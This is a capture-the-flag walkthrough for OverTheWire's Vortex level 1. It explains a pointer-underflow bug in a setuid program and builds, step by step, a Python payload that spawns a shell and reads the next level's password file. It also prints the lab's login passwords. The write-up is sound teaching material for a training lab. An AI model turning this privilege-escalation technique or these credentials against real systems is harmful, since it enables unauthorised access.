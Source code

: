 ## Vortex Level 1 → Level 2
### Canary Values

Problem page: <http://overthewire.org/wargames/vortex/vortex1.html>

#### Preamble

Okay, vortex level 1, time to start writing exploits, but first, let's go over how these vortex problems work, let's ssh into the lab as vortex1 with the password we got in level 0.  
The `sshpass` program is useful for logging into the vortex machines without having to type the password each time.

```console
sshpass -p Gq#qu3bF3 ssh vortex1@vortex.labs.overthewire.org -p 2228
```

The goal of each vortex level is to get the password for the next level, these passwords can be found in `/etc/vortex_pass/` Let's try to get the password for the vortex2 user.

```console
vortex1@vortex:~$ cat /etc/vortex_pass/vortex2
cat: /etc/vortex_pass/vortex2: Permission denied
vortex1@vortex:~$ ls -l /etc/vortex_pass/vortex2
-r-------- 1 vortex2 vortex2 10 Aug 20 04:24 /etc/vortex_pass/vortex2
```

I didn't expect that to work, but it was worth a shot.  
We see that the owner of the password file is vortex2, so we'll need to convince the lab that we're that user in order to access that file.

The exploitable executables for each problem are located in `/vortex/`, let's look at `/vortex/vortex1`

```console
vortex1@vortex:~$ ls -l /vortex/vortex1
-r-sr-x--- 1 vortex2 vortex1 7607 Aug 20 04:24 /vortex/vortex1
```

What's important to notice here is that the [setuid bit](https://en.wikipedia.org/wiki/Setuid#When_set_on_an_executable_file) of the excecutable is set to `vortex2`, meaning that the file will run as vortex2, this is the case for all the vortex excecutables and will obviously be very useful for us in accessing those password files

Anyways, let's look at the actual code we're going to exploit

#### Finding the exploit

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>


#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
  int i;

  printf("[ ");
  for(i=0; i < len; i++) printf("%x ", buf[i]);
  printf(" ]\n");
}

int main()
{
  unsigned char buf[512];
  unsigned char *ptr = buf + (sizeof(buf)/2);
  unsigned int x;

  while((x = getchar()) != EOF) {
    switch(x) {
    case '\n': print(buf, sizeof(buf)); continue; break;
    case '\\': ptr--; break; 
    default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
    }
  }
  printf("All done\n");
}
```

Okay, so the goal jumps out at you at the very start of this program

```C
#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
```

When `e()` is called, if the [most significant byte](https://en.wikipedia.org/wiki/Bit_numbering#Most_significant_byte) of `ptr` is equal to `0xca`, the program will set the real user ID to the effective user ID (i.e. vortex2), and then spawn a shell.  From that shell we would be able to read the contents of the password file.  
So our goal is to have the program call `e()` after we mess with the value of `ptr`, let's look at the program as a whole.

We have two main variables we're dealing with here:  
  * `buf`, a 512-length char array.
  * `ptr`, a char pointer which points to the 256th byte of `buf`

The rest of the program is a while loop that reads input into the `x` variable until `EOF` is recieved. For each character of input the program does one of 3 things:
  * If a newline is inputted, `buf` is printed
  * If a backslash is inputted, `ptr` is decremented, making it point one byte earlier in memory.
  * otherwise, `e()` is called, the value of whatever `ptr` is pointing at is set equal to `x`, then `ptr` is incremented

The way we can exploit this program is in the second case of this switch, `ptr` can be decremented past the start of `buf` and into other memory.  
Remember that our goal is to set the most significant byte of `ptr` to `0xca`. Since memory grows towards lower addresses in the vortex machine's architecture, `ptr` will be located directly `buf` in memory, so if we input enough backslashes, we will be able to have `ptr` point at its own address. We can then input the byte `0xca` into the program to alter `ptr` and be able to pass the conditional in `e()`.

#### Writing the Exploit

Okay so let's start writing the string we'll throw it the program to make it give us a shell. We'll use Python instead of C since strings are just a *teensy* bit easier.

Let's start with the 256 backslashes to get from `ptr`'s initial location to the start of `buf`

```python
print("\\" * 256)
```

Now we need to send some more backslashes to get to the byte we need, however this is a bit more complicated than it might seem. Memory is [alligned](https://en.wikipedia.org/wiki/Data_structure_alignment) differently in different architectures, so `ptr` might not be exactly 4 bytes before `buf`, we might be able to look up processor specifications and do some math to figure out exactly where the byte we need to alter is, but it'll probably be easier to use gdb to look at the disassembly of the program and see where an the stack our local variables are being stored.

```console
vortex1@vortex:~$ gdb /vortex/vortex1
(gdb) disassemble main
Dump of assembler code for function main:
0x080485c0 <+0>:     push   %ebp
0x080485c1 <+1>:     mov    %esp,%ebp
0x080485c3 <+3>:     push   %esi
0x080485c4 <+4>:     push   %ebx
0x080485c5 <+5>:     and    $0xfffffff0,%esp
0x080485c8 <+8>:     sub    $0x220,%esp
0x080485ce <+14>:    mov    %gs:0x14,%eax
0x080485d4 <+20>:    mov    %eax,0x21c(%esp)
0x080485db <+27>:    xor    %eax,%eax
0x080485dd <+29>:    lea    0x1c(%esp),%eax
0x080485e1 <+33>:    add    $0x100,%eax
0x080485e6 <+38>:    mov    %eax,0x14(%esp)
...
End of assembler dump.
(gdb) quit
```

The disassembly is pretty big, so I cut out everything after the info we need. We see that the start of `buf` is at `0x1c` on the stack, and that `ptr` is at `0x14`. Since the vortex machines are on a [little endian](https://en.wikipedia.org/wiki/Endianness#Little-endian) architecture, the most significant bit of `ptr` will be located at the end of the word, so at `0x17` in this case. `0x1c - 0x17 = 0x5` so the byte we need to point at is 5 bytes before the start of `buf`.  
Let's add those 5 more backslashes.

```python
print("\\" * 261)
```

So now we're pointing at the byte we need to change, so let's add the `0xca` byte to our string to set it in order to be able to pass the `e()` conditional.  
Remember that the default case of the program's switch statement also increments `ptr`, so we'll decrement it with another backslash in the incredibly unlikely case that `ptr` was equal to `0xcaffffff` and would have been incremented to `0xcd000000`
We finish off our exploit string with any character that's not `\n` or `\\`, this will call e() again and create the shell we need.

```python
print("\\" * 261 + chr(0xca) + "\\" + ".")
```

That'll have the shell spawned, let's add on a `whoami` and the `cat /etc/vortex_pass/vortex2` to the end of our exploit

```python
print("\\" * 261 + chr(0xca) + "\\" + "." + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")
```

Alright, this should do it, let's run it!

```console
vortex1@vortex:~$ python -c 'print("\\" * 261 + "\xca" + "\\" + "." + "\nwhoami\n\cat /etc/vortex_pass/vortex2\n")' | /vortex/vortex1
vortex1@vortex:~$
```

Okay so nothing happenend, which is sub-optimal obviously, but not all that bad.  
Normally before `/vortex/vortex1` exits, it prints out `"All done"`, but that didn't happen this time, so we know that we likely managed to sucessfully spawn the shell. What happened then, why didn't it run the `whoami` or `cat` commands?

#### Fixing the Exploit

Basically on the back end of Linux's syscalls, when a program calls `read()`, it tries to read `4096` bytes at a time, you can read more about the way this linux does these buffers in [this article](http://www.pixelbeat.org/programming/stdio_buffering/).  
Anyways, the result of this behaviour is that there will be no input for the spawned shell to read, as the reads from `vortex2` will have consumed all the data. The shell will then immediately try to read, but only get an `EOF`, which the newly spawned shell interprets as an exit command.

A way we can get around this issue is by writing enough data after the `"."` to make our input be of length `4096` before the commands we want the shell to run.  
The length of our string before the commands is `264`, `4096 - 264 = 3832`, so our final string is:

```python
print("\\"*261 + chr(0xca) + "\\" + "." + "."*3832 + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")
```

Running it:

```console
vortex1@vortex:~$ python -c 'print("\\"*261 + chr(0xca) + "\\" + "." + "."*3832 + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")' | /vortex/vortex1
vortex2
23anbT\rE
vortex1@vortex:~$
```

There we go, level 1 solved! Thankfully level 2 will be a lot less long-winded than this one was.
